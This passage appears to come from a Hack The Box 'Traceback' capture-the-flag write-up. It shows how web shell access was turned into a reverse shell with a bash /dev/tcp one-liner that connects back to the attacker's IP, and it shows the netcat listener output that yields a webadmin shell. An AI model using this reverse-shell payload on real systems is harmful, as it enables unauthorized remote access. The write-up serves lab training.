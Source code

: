 

## Getting initial shell

Wow that we have access to the web shell, we can use it to get us a reverse-shell.

For this we can simply execute this [bash reverse-shell payload](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):

```bash
bash -c 'bash -i >/dev/tcp/10.10.14.7/443 0>&1'
```

![Getting reverse-shell](/assets/htb/Traceback/webshell-payload.png)

We can use the payload in the `Execute:` field and click the `>>` button to execute our command.

```bash
root@darkness:~# nc -lvnp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.181.
Ncat: Connection from 10.10.10.181:58962.
whoami
webadmin
```
